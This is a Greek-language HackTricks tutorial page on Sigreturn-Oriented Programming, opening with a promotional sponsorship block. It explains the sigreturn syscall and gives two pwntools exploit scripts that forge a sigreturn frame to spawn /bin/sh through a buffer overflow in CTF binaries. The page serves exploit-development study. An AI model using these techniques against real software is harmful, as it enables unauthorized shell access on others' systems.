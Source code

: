 # SROP - Προγραμματισμός Επιστροφής Σήματος

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου AWS του HackTricks)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα αποθετήρια του [**HackTricks**](https://github.com/carlospolop/hacktricks) και του [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Βασικές Πληροφορίες

Το **`Sigreturn`** είναι ένα ειδικό **syscall** που χρησιμοποιείται κυρίως για τον καθαρισμό μετά την ολοκλήρωση ενός χειριστή σήματος. Τα σήματα είναι διακοπές που στέλνονται σε ένα πρόγραμμα από το λειτουργικό σύστημα, συχνά για να υποδείξουν ότι έχει συμβεί κάποια εξαιρετική κατάσταση. Όταν ένα πρόγραμμα λαμβάνει ένα σήμα, παύει προσωρινά την τρέχουσα εργασία του για να χειριστεί το σήμα με ένα **χειριστή σήματος**, μια ειδική λειτουργία σχεδιασμένη για να αντιμετωπίζει τα σήματα.

Μετά την ολοκλήρωση του χειριστή σήματος, το πρόγραμμα πρέπει να **επαναφέρει την προηγούμενη κατάστασή του** ως να μην συνέβη τίποτα. Εδώ είναι που εμφανίζεται το **`sigreturn`**. Βοηθά το πρόγραμμα να **επιστρέψει από το χειριστή σήματος** και επαναφέρει την κατάσταση του προγράμματος καθαρίζοντας το πλαίσιο στοίβας (το τμήμα μνήμης που αποθηκεύει κλήσεις συναρτήσεων και τοπικές μεταβλητές) που χρησιμοποιήθηκε από το χειριστή σήματος.

Το ενδιαφέρον μέρος είναι πώς το **`sigreturn`** επαναφέρει την κατάσταση του προγράμματος: το κάνει αυτό αποθηκεύοντας **όλες τις τιμές των καταχωρητών της CPU** στη στοίβα. Όταν το σήμα δεν είναι πλέον μπλοκαρισμένο, το **`sigreturn`** απομαγνητίζει αυτές τις τιμές από τη στοίβα, επαναφέροντας αποτελεσματικά τους καταχωρητές της CPU στην κατάστασή τους πριν το χειρισμό του σήματος. Αυτό περιλαμβάνει τον καταχωρητή δείκτη στοίβας (RSP), που δείχνει στην τρέχουσα κορυφή της στοίβας.

{% hint style="danger" %}
Καλώντας το syscall **`sigreturn`** από μια ROP αλυσίδα και **προσθέτοντας τις τιμές των καταχωρητών** που θα θέλαμε να φορτώσει στη **στοίβα**, είναι δυνατό να **ελέγξουμε** όλες τις τιμές των καταχωρητών και συνεπώς να **καλέσουμε** για παράδειγμα το syscall `execve` με `/bin/sh`.
{% endhint %}

Σημειώστε πώς αυτό θα ήταν ένας **τύπος Ret2syscall** που καθιστά πολύ πιο εύκολο τον έλεγχο των παραμέτρων για να καλέσει άλλα Ret2syscalls:

{% content-ref url="rop-syscall-execv/" %}
[rop-syscall-execv](rop-syscall-execv/)
{% endcontent-ref %}

Αν είστε περίεργοι, αυτή είναι η δομή **sigcontext** που αποθηκεύεται στη στοίβα για να ανακτήσει αργότερα τις τιμές (διάγραμμα από [**εδώ**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
Για μια καλύτερη εξήγηση, ελέγξτε επίσης:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Παράδειγμα

Μπορείτε να [**βρείτε ένα παράδειγμα εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) όπου η κλήση στο signeturn κατασκευάζεται μέσω ROP (βάζοντας στο rxa την τιμή `0xf`), αν και αυτή είναι η τελική εκμετάλλευση από εκεί:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Ελέγξτε επίσης το [**exploit από εδώ**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) όπου το δυαδικό αρχείο καλούσε ήδη το `sigreturn` και επομένως δεν χρειάζεται να κατασκευάσετε ένα **ROP**:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## Άλλα Παραδείγματα & Αναφορές

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* Αρχείο με Assembly που επιτρέπει την **εγγραφή στη στοίβα** και στη συνέχεια καλεί την κλήση συστήματος **`sigreturn`**. Είναι δυνατόν να γραφτεί στη στοίβα ένα [**ret2syscall**](rop-syscall-execv/) μέσω μιας δομής **sigreturn** και να διαβαστεί η σημαία που βρίσκεται μέσα στη μνήμη του αρχείου.
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* Αρχείο με Assembly που επιτρέπει την **εγγραφή στη στοίβα** και στη συνέχεια καλεί την κλήση συστήματος **`sigreturn`**. Είναι δυνατόν να γραφτεί στη στοίβα ένα [**ret2syscall**](rop-syscall-execv/) μέσω μιας δομής **sigreturn** (το αρχείο περιέχει τη συμβολοσειρά `/bin/sh`).
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 bits, χωρίς relro, χωρίς canary, nx, χωρίς pie. Απλή υπερχείλιση buffer κατάχρησης της λειτουργίας `gets` με έλλειψη gadgets που εκτελούν ένα [**ret2syscall**](rop-syscall-execv/). Η ROP αλυσίδα γράφει το `/bin/sh` στο `.bss` καλώντας ξανά τη gets, καταχρώνται τη λειτουργία **`alarm`** για να ορίσουν το eax σε `0xf` για να καλέσουν ένα **SROP** και να εκτελέσουν ένα κέλυφος.
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* Πρόγραμμα συναρμολόγησης 64 bits, χωρίς relro, χωρίς canary, nx, χωρίς pie. Η ροή επιτρέπει την εγγραφή στη στοίβα, τον έλεγχο πολλών καταχωρητών και την κλήση ενός συστήματος και στη συνέχεια καλεί την `exit`. Η επιλεγμένη κλήση συστήματος είναι ένα `sigreturn` που θα ορίσει καταχωρητές και θα μετακινήσει το `eip` για να καλέσει μια προηγούμενη εντολή συστήματος και να εκτελέσει το `memprotect` για να ορίσει το χώρο του αρχείου σε `rwx` και να ορίσει το ESP στο χώρο του αρχείου. Ακολουθώντας τη ροή, το πρόγραμμα θα καλέσει ξανά το read στο ESP, αλλά σε αυτήν την περίπτωση το ESP θα δείχνει στην επόμενη εντολή, οπότε περνώντας ένα shellcode θα το γράψει ως την επόμενη εντολή και θα το εκτελέσει.

